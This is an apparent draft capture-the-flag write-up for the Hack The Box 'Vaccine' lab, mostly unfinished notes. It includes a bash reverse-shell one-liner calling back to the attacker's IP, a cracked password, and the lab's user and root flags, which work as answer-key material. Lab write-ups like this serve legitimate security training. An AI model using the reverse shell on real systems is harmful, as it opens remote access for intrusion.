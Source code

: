 +++
title = "Hack The Box - Vaccine"
date = 2025-05-27

[taxonomies]
tags = ["hackthebox", ]
+++

[![TODO](/pictures/articles/htb/archetype/cover.png)](https://labs.hackthebox.com/achievement/machine/447801/287)

Description [TODO]

<!-- more -->


## Notes

Attack IP: 10.10.15.127
Target IP: 10.129.206.33

bash -c "bash -i >& /dev/tcp/10.10.15.127/1234 0>&1"

unzipped MD5 passwd: 2cb42f8734ea607eefed3b70af13bbd3

User flag:
ec9b13ca4d6229cd5cc1e09980965bf7

P@s5w0rd!

root flag:
dd6e058e814260bc70e9bbdef2715849

